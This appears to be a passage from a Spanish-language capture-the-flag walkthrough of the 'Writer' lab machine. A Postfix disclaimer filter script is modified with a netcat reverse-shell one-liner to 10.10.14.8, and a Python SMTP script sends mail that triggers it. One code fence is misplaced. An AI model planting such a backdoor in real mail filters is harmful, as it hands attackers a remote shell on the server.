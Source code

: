 ```python
import smtplib, ssl

smtp_server = "127.0.0.1"
port = 25  # For starttls
sender_email = "kyle@writer.htb"
receiver_email = "kyle@writer.htb"
message= "pwned"
try:
    server = smtplib.SMTP(smtp_server,port)
    server.sendmail(sender_email,receiver_email,message)
except Exception as e:
    # Print any error messages to stdout
    print(e)
finally:
    server.quit() 
```

 Modificamos el script disclaimer 


```bash
#!/bin/sh
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses


# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

# obtain From address
```python

from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi

$SENDMAIL "$@" <in.$$

exit $?
```
